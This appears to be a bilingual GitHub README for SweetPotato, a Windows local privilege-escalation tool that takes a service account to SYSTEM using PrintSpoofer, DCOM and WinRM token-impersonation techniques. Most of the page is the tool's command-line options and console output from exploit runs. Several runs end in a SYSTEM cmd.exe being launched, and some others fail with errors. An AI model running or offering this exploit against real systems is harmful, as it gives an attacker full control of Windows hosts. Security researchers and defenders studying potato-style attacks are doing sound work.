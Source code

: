 # SweetPotato 
### A collection of various native Windows privilege escalation techniques from service accounts to SYSTEM

```
C:\Users\Administrator\Desktop>SweetPotato.exe -h

SweetPotato by @_EthicalChaos_

Orignal RottenPotato code and exploit by @foxglovesec

Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery

PrintSpoofer discovery and original exploit by @itm4n

  -c, --clsid=VALUE          CLSID (default BITS: 4991D34B-80A1-4291-83B6-
                               3328366B9097)
  -m, --method=VALUE         Auto,User,Thread (default Auto)
  -p, --prog=VALUE           Program to launch (default cmd.exe)
  -a, --args=VALUE           Arguments for program (default null)
  -e, --exploit=VALUE        Exploit mode [DCOM|WinRM|PrintSpoofer(default)]
  -l, --listenPort=VALUE     COM server listen port (default 6666)
  -h, --help                 Display this help

C:\Users\Administrator\Desktop>

```

# 甜土豆🥔

### 从`service accounts` 服务帐户到`SYSTEM`的各种本机Windows特权升级技术的集合

```
@foxglovesec的Orignal 烂土豆RottenPotato代码和利用
@decoder_it和@Guitro通过BITS WinRM发现武器化的 多汁JuciyPotato
@itm4n的PrintSpoofer发现和原始利用
```

![](./images/build.png)


`SweetPotato-CCob\NtApiDotNet\bin\Release\NtApiDotNet.dll`

`SweetPotato-CCob\bin\Release\SweetPotato.exe`


![](./CCob.png)

```
C:\Users\Administrator\Desktop>SweetPotato.exe

SweetPotato by @_EthicalChaos_

Orignal RottenPotato code and exploit by @foxglovesec

Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery

PrintSpoofer discovery and original exploit by @itm4n

[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\IIS85-CN/pipe/e5ebfae5-578d-498a-b870-7641254c8393
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

C:\Users\Administrator\Desktop>

```

### SweetPotato.exe -m Thread

`[!] Failed to parse arguments: Could not convert string `Thread' to type ExecutionMethod for option `-m'.`

### SweetPotato.exe -e DCOM

```
[+] Attempting DCOM NTLM interception with CLID 4991D34B-80A1-4291-83B6-3328366B9097 on port 6666 using method Token to launch c:\Windows\System32\cmd.exe
[!] No authenticated interception took place, exploit failed
```
### SweetPotato.exe -e WinRM

```
[+] Attempting DCOM NTLM interception with CLID 4991D34B-80A1-4291-83B6-3328366B9097 on port 6666 using method Token to launch c:\Windows\System32\cmd.exe
[!] No authenticated interception took place, exploit failed

未经处理的异常:  System.Net.Sockets.SocketException: 以一种访问权限不允许的方式做了一个访问套接字的尝试。
   在 System.Net.Sockets.Socket.DoBind(EndPoint endPointSnapshot, SocketAddress socketAddress)
   在 System.Net.Sockets.Socket.Bind(EndPoint localEP)
   在 SweetPotato.PotatoAPI.WinRMListener()
   在 System.Threading.ThreadHelper.ThreadStart_Context(Object state)
   在 System.Threading.ExecutionContext.RunInternal(ExecutionContext executionContext, ContextCallback callback, Object state, Boolean preserveSyncCtx)
   在 System.Threading.ExecutionContext.Run(ExecutionContext executionContext, ContextCallback callback, Object state, Boolean preserveSyncCtx)
   在 System.Threading.ExecutionContext.Run(ExecutionContext executionContext, ContextCallback callback, Object state)
   在 System.Threading.ThreadHelper.ThreadStart()
```

### SweetPotato.exe -e PrintSpoofer

```
[+] Attempting NP impersonation using method PrintSpoofer to launch c:\Windows\System32\cmd.exe
[+] Triggering notification on evil PIPE \\IIS85-CN/pipe/01ff3c45-6a2b-4788-957f-92612ecdab63
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!
```

Successful!
